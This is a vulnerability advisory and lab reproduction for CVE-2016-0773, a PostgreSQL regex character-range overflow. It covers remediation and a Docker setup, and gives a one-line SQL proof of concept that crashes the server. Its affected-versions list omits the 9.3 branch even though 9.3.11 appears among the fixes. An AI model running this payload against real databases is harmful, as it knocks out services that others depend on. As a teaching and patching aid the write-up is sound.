



# CVE-2016-0773 CWE-119 PostgreSQL DoS

## Vulnerability Background
- **PostgreSQL**:P ostgreSQL is an open-source, powerful object-relational database management system widely used in web development, data analysis, and enterprise-level applications. It supports ACID transactions, complex queries, full-text searches, and Multi-Version Concurrency Control (MVCC), ensuring high concurrency and data consistency. PostgreSQL offers extensibility, allowing users to customize data types, functions, and indexes, and also supports JSON and geospatial data.
- **CWE-119 (Improper Restriction of Operations within the Bounds of a Memory Buffer)**: Refers to a program lacking effective boundary checks for memory access operations, resulting in reading or writing content beyond the expected buffer. Such vulnerabilities often cause buffer overflows, information leaks, program crashes, and can even be remotely exploited by attackers to execute arbitrary code.

## Vulnerability Mechanism
Improper handling of character ranges in the PostgreSQL regular expression parser `CHR_MAX` values being incorrectly defined as exceeding the `int32` range, resulting in internal loop control variables overflowing when processing regular expressions with very large Unicode character ranges, triggering infinite loops or memory out-of-bounds and causing database process crashes or denials of service (DoS).

## Vulnerability Location
Analysis of PostgreSQL 9.4.0 source code:

In the src \include \regex \regcustom.h file, the macro definition at line **68** specifies the maximum value range for the internal characters (`chr`) of the regular expression parser. `CHR_MAX` is set to `0xfffffffe` (i.e., 4294967294), which is a constant close to the maximum value of `uint32_t`. However, in regular regex engines, the variable type used to traverse the character range is `celt`, defined as `typedef int celt;`, that is, **signed 32-bit integer (`int32_t`)**, which can only represent up to `0x7fffffff` (2147483647);

```cpp
#define CHR_MAX 0xfffffffe		/* CHR_MAX-CHR_MIN+1 should fit in uchr */
```

Consider the loop `for (c = a; c <= b; c++) { ... }`. If `b > 0x7fffffff`, `c` overflows and becomes negative, so the loop never terminates and causes a denial of service.

## Remediation

Upgrade to PostgreSQL 9.1.20, 9.2.15, 9.3.11, 9.4.6, 9.5.1, or later. Commit `fdc3139e2bd7d7c8b8e530e48b78bba48b72e9a1` changes `CHR_MAX` so that both `CHR_MAX + 1` and the full character range fit in the signed types used by the regular-expression compiler, preventing the range loop counter from wrapping negative.

Before upgrading, reject or tightly limit untrusted regular expressions, especially bracket ranges near the maximum character value. Statement timeouts can interrupt some denial-of-service cases but do not correct the overflow.
Correct the definition of `CHR_MAX` to avoid exceeding the `int32_t` (type `celt`) limit, preventing dead loops in `for (c = a; c <= b; c++)` loops.

```cpp
#define CHR_MAX 0x7ffffffe		/* CHR_MAX-CHR_MIN+1 must fit in an int, and
								 * CHR_MAX+1 must fit in both chr and celt */
```

## Affected Versions
**Affected version:** PostgreSQL:

- 9.1.0 to 9.1.19
- 9.2.0 to 9.2.14
- 9.4.0 to 9.4.5
- 9.5.0

## Environment Setup
Start the Docker environment, PostgreSQL version 9.4.0, administrator postgres, password postgres, database test already exists.

```txt
NIST: NVD Base Score: 7.5 HIGH Vector:  CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H
```

```txt
cpe:2.3:a:postgresql:postgresql:9.4:*:*:*:*:*:*:*
```



## Vulnerability Reproduction
1. Use Postgres user identity to connect to the PostgreSQL database test in the container

   ```bash
   docker exec -it postgres-9.4.0 psql -U postgres -d test
   ```

2. Execute the PoC code; after execution, you will see the connection closes and automatically exits

   ```postgresql
   \i CVE-2016-0773-PoC.sql
   ```

   

3. Checking the container logs, you can see that PostgreSQL encountered a segment error (signal 11), which caused it to crash.

   ```bash
   docker logs postgres-9.4.0
   ```

   

## PoC Analysis

```sql
SELECT 'a' ~* E'[a-\\x7fffffff]';
```

In this regular expression, although the character is a valid hexadecimal number, it is not correctly restricted within the `CHR_MAX` range and is treated as a valid character for subsequent processing. The character of this `\x7fffffff` exceeds the capabilities of `celt`, and when unfolded in `range()`, loop errors occur, causing memory allocation calculation errors and further crashes.

## References
[NVD - CVE-2016-0773](https://nvd.nist.gov/vuln/detail/CVE-2016-0773#toggleConfig1)

[Fix some regex issues with out-of-range characters and large char ran… · postgres/postgres@fdc3139](https://github.com/postgres/postgres/commit/fdc3139e2bd7d7c8b8e530e48b78bba48b72e9a1#diff-d9d80e4d41aa83e087fb14c54967e3a3260586def1c43867e4cbc51da18a8198)
